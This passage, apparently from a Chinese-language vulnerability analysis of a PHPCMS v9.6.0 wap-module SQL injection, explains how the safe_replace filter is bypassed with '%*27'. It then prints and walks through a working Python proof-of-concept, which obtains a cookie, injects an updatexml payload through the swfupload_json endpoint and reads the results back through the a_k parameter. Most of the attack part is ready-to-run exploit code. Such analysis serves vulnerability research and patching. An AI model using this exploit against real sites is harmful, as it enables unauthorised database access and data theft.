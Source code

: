 作为安全过滤函数，safe_replace对%20、%27、%2527等都进行了替换删除操作。同样对等也进行了替换删除处理。这样如果传入`%*27`经过处理后即只剩下%27.这样就可以对sql注入的payload进行适当的处理即可传入程序进入set_cookie函数，从而进行加密操作。

## 4.&emsp;简析利用POC ##

**主要函数代码如下：**

	def sqli(host):
	    try:
	        url1 = '{}/index.php?m=wap&c=index&a=init&siteid=1'.format(host)
	        s = requests.Session()
	        req = s.get(url1)
	        flag = raw_input("Input your SQL Injection:")
	        flag = urllib.quote(flag)
	        url2 = '{}/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28{}%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26'.format(
	                host, flag)
	        cookies = requests.utils.dict_from_cookiejar(s.cookies)['svyko_siteid']
	        data = {"userid_flash": cookies}
	        r = s.post(url=url2, data=data)
	        a_k = r.headers['Set-Cookie'][61:]
	        url3 = '{}/index.php?m=content&c=down&a_k={}'.format(host, a_k)
	        if re.search(check_response, str(s.get(url3).content)) is not None:
	            print re.search(check_response, str(s.get(url3).content)).group()
	    except:
	        print 'requests error.'
	        pass

该函数主要实现三步：

1. 通过传入参数host构造第一个url：` url1 = '{}/index.php?m=wap&c=index&a=init&siteid=1'.format(host)`，发送get请求，获取cookie。
2. 通过手动输入自己的SQL注入语句构造url2：

		flag = raw_input("Input your SQL Injection:")
        flag = urllib.quote(flag)
        url2 = '{}/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28{}%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26'.format(
                host, flag)
并且把url1中获取的cookie在url2构造post请求中以data参数形式进行传参。
3. 把url2中获取的set-cookie参数值作为url3中`url3 = '{}/index.php?m=content&c=down&a_k={}'.format(host, a_k)`a_k的参数值进行输入得到回显，获取sql注入返回结果。

## 5.&emsp;参考资料 ##

* [phpcms v9.6.0 wap模块 SQL注入分析](https://xianzhi.aliyun.com/forum/mobile/read/1491.html "https://xianzhi.aliyun.com/forum/mobile/read/1491.html")
* [PHPCMS v9.6.0 wap模块 SQL注入](http://paper.seebug.org/275/ "http://paper.seebug.org/275/")
* [PHPCMS v9 wap模块 SQL注入](https://www.seebug.org/vuldb/ssvid-92929 "https://www.seebug.org/vuldb/ssvid-92929")